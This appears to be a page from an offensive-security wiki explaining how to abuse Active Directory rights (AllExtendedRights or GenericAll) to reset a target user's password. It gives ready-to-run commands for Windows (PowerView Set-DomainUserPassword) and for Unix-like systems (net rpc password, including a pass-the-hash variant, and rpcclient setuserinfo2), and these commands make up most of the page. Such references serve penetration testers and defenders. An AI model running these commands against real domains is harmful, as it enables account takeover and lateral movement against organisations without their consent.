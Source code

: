 # ForceChangePassword

This abuse can be carried out when controlling an object that has `AllExtendedRights`, or `GenericAll` over a target user.

{% tabs %}
{% tab title="Windows" %}
The attacker can change the password of the user. This can be achieved with [Set-DomainUserPassword](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainUserPassword/) \([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module\).

```bash
$NewPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity 'TargetUser' -AccountPassword $NewPassword
```
{% endtab %}

{% tab title="UNIX-like" %}
It can also be achieved from UNIX-like system with [net](https://linux.die.net/man/8/net), a tool for the administration of samba and cifs/smb clients. The [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit) can also be used to run net commands with [pass-the-hash](../abusing-ntlm/pass-the-hash.md).

```bash
# With net and cleartext credentials (will be prompted)
net rpc password $TargetUser -U $DOMAIN/$ControlledUser -S $DomainController

# With net and cleartext credentials
net rpc password $TargetUser -U $DOMAIN/$ControlledUser%$Password -S $DomainController

# With Pass-the-Hash
pth-net rpc password $TargetUser -U $DOMAIN/$ControlledUser%ffffffffffffffffffffffffffffffff:$NThash -S $DomainController
```

The [rpcclient](https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html) can also be used on UNIX-like systems when the package `samba-common-bin` is missing.

```bash
rpcclient -U $DOMAIN/$ControlledUser $DomainController
rpcclient $> setuserinfo2 $TargetUser 23 $NewPassword
```
{% endtab %}
{% endtabs %}

